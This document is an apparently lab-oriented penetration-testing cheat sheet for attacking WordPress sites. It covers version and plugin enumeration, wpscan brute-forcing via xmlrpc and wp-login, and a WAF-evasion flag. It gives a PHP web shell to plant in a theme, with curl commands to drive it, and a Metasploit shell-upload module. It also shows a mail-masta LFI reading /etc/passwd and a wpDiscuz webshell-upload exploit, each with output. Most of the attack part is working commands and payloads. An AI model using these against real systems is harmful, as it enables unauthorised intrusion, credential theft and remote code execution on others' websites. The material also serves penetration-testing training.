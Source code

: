 # WordPress

## 101

{% hint style="info" %}
[WordPress Vulnerability Statistics](https://wpscan.com/statistics/)
{% endhint %}

<details>

<summary>Directories</summary>

`/wp-admin` -> `/wp-login.php`

`/wp-content/plugins/`

`/wp-content/themes/`

</details>

<details>

<summary>Wordlists</summary>

[wordpress.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wordpress.fuzz.txt)

[wp-plugins.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt)

[wp-themes.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-themes.fuzz.txt)

</details>

<details>

<summary>Roles &#x26; Permissions</summary>

Administrator -> King :crown:

Editor -> Post management + publish (for all users)

Author -> Post management + publish (owned posts)

Contributor -> Post management (owned posts)

Subscriber -> Browse posts, manage its own profile

</details>

## Enumeration

{% tabs %}
{% tab title="Manual" %}
{% code overflow="wrap" %}
```bash
# Version
curl -s example.com | grep '<meta name="generator"'

# Themes
curl -s example.com | grep themes

# Plugins
curl -s example.com | grep plugins

# Plugin version (requires Directory listing to be enabled)
curl -s example.com/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```
{% endcode %}
{% endtab %}

{% tab title="wpscan" %}
[WPScan](https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation) is a free, Ruby-based WordPress security scanner that performs black-box testing to identify vulnerabilities in WordPress core, plugins, themes, and user configurations.

{% hint style="info" %}
For vulnerability scanning get a token from [WPScan](https://wpscan.com/).
{% endhint %}

{% code overflow="wrap" %}
```bash
# Update database
wpscan --update

# General enumeration
sudo wpscan --url example.com --enumerate --api-token <TOKEN>

# Modify agent for WAF evasion
sudo wpscan --url example.com --enumerate --api-token <TOKEN> --random-user-agent
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Attacks

### BFA

`wp-login.php` is the standard login form that accepts one login attempt per request. `xmlrpc.php` allows login via API calls and can bundle many attempts in one request, making brute-force faster. Even if `wpscan` outputs that XML-RPC is enabled, login-related methods may be blocked by plugins or server settings, so attacks through it can fail while `wp-login` attacks still work.

WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) → uses WP's API to BF (`xmlrpc.php`) (faster)
2. wp-login → attempts to BF `wp-login.php`&#x20;

{% code overflow="wrap" %}
```bash
# Enumerating users and brute-forcing
sudo wpscan --url example.com -e u --passwords password.lst

# Targeted BFA using xmlrpc
sudo wpscan --password-attack xmlrpc -t 20 --url http://example.com -U roger -P /usr/share/wordlists/rockyou

# Targeted BFA using wp-login
sudo wpscan --password-attack wp-login -t 20 --url http://example.com -U james -P cewl_tokens.txt
```
{% endcode %}

### RCE

{% tabs %}
{% tab title="Manual" %}
Modify an inactive theme (for avoiding breaking the site) by inserting a PHP web shell:&#x20;

```php
<?php system($_GET['c']); ?>
```

<figure><img src="../../.gitbook/assets/http_80_ir_webshell_process.png" alt=""><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://example.com/wp-content/themes/twentytwenty/404.php?c=id
```

The same exact method can be done with Plugins:

{% hint style="warning" %}
Remeber to activate the plugin after: _Plugins_ → _Installed Plugins_ → _Activate_.
{% endhint %}

<figure><img src="../../.gitbook/assets/wp_rce_2.png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="MSF" %}
MSF's [`wp_admin_shell_upload`](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module can be used:

```bash
# use module (make sure to set VHOST if needed)
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```
{% endtab %}
{% endtabs %}

### Vulnerabilities

{% tabs %}
{% tab title="mail-masta" %}
No longer supported:

* [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438)
* [Local File Inclusion](https://www.exploit-db.com/exploits/50226).

{% code overflow="wrap" %}
```php
<?php 

include($_GET['pl']); # no validation/sanitization
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```
{% endcode %}

{% code overflow="wrap" %}
```shell
$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...snip...
```
{% endcode %}
{% endtab %}

{% tab title="wpDiscuz" %}
`wpDiscuz` is a plugin aimed to enhance commenting on page posts. Based on the version number (`7.0.4`), this [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution via a file upload bypass.&#x20;

`wpDiscuz` is intended only to allow image attachments. The file mime type functions could be bypassed, allowing an unauthenticated attacker to upload a malicious PHP file and gain remote code execution. The exploit script takes two parameters: `-u` the URL and `-p` the path to a valid post:

{% code overflow="wrap" %}
```bash
$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[102476] | code:[200]
[!] Got wmuSecurity value: 5c9398fcdb
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: uthsdkbywoxeebg

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...
```
{% endcode %}

The exploit as written may fail, but we can use curl to interact with the uploaded webshell:

{% code overflow="wrap" %}
```bash
$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{% endcode %}
{% endtab %}
{% endtabs %}
